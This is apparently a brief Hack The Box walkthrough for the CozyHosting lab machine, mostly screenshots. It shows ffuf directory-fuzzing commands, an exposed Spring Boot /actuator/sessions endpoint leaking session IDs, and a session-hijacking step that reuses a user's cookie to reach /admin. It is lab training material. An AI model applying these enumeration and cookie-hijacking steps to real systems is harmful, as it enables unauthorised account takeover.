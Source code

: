### 07-Feb-24-Wed

[CozyHosting](https://app.hackthebox.com/machines/CozyHosting)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9d28374e-abe1-408f-b2b9-c83c240aa5ec)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1f8c588d-5c72-4756-ba35-2d561735d978)

http://cozyhosting.htb/login

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ef15c62a-8d95-4fa9-be26-07291d5fa76f)

http://cozyhosting.htb/usersettings.php

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/980f8307-5273-4fa7-8069-d284293325bc)

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u 'http://cozyhosting.htb/FUZZ' -k
```

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt:FUZZ -u 'http://cozyhosting.htb/FUZZ' -k
```

http://cozyhosting.htb/actuator/sessions

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/250d89d3-d19d-4eba-8e00-c94f7d4f001e)

**Session Hijacking**

```
{"C6EC972292B31D51DD6CC2D76BA4E9BF":"kanderson"}
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/43bca6c5-09f9-4775-98aa-4e0c8252574e)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/640c0a61-77ab-40f0-af4a-c91ca5053414)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/fb1b81ea-bca0-4a96-8da7-f5efe74273b6)

```
{
"CDC486FA769DCE00A7422B65FD5A5618":"kanderson",
"1110D4636DBA4E9EC20507C98FC4CB7B":"UNAUTHORIZED",
"26DCF14037C4D76F6281F3F0851114AA":"UNAUTHORIZED",
"C923353C76138AE7A68DB1541BAE9FFE":"UNAUTHORIZED",
"370A276B6C913E8E8B9867D8E3FA9B36":"UNAUTHORIZED"
}
```

http://cozyhosting.htb/admin

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/37b097e9-6acd-4129-a5aa-aca637d72194)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/16d90589-9867-4e3e-8a65-5e9e04da0beb)

